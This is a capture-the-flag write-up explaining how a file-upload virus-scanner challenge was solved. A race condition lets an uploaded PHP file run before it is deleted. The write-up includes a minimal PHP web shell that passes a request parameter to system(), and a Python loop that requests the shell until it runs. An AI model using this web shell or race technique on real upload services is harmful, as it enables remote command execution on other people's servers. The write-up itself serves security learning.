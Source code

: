 ```yaml
---
permalink: /V1RUSCHECK0R3000/
---
```


# V1RUSCHECK0R3000

We are given a website where we are able to look into the source code. After some investigation, I found out that the site lets you upload a file not bigger than 100 bytes, scan it using clamscan and then tell you if the file is a virus or not. 

After taking a closer look at the code, I saw this function:

```php
function hasVirus($file_path) {
    # Check for Virus
    $argument = escapeshellarg($file_path);
    exec("clamscan $argument", $output, $retval);
    
    if ($retval != 0) {
        return true;
    } 
    return false;
}
```

I thought that maybe escapeshellarg is the exploitable part but after quite some time researching I discarded this approach. After that, I tried running clamscan myself to see if there are any possible arguments, that would give me something useful but also no luck there.

While looking at the manual though, I got the idea to upload a shell and then copy it into a directory in which it won't get deleted but that will obviously not work as there is no bypass for escapeshellarg. While trying clamscan I noticed that it doesn't work instantly...

Then I remembered a challenge from another CTF in which I had a small timeframe to upload a shell before it gets deleted... and after some trying around I got RCE!!

To make fast enough requests, I used this python code:

```py
import requests

while True:
    r = requests.get("http://viruscheckor.rumble.host/uploads/shell.php?cmd=whoami")
    if not "The requested URL /uploads/shell.php was not found on this server." in r.text:
        print(r.text)
```

With the basic php shell: 

```php
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd']);
    }
?>
```

And after searching for a bit I finally found the flag: `cat ../flag.php`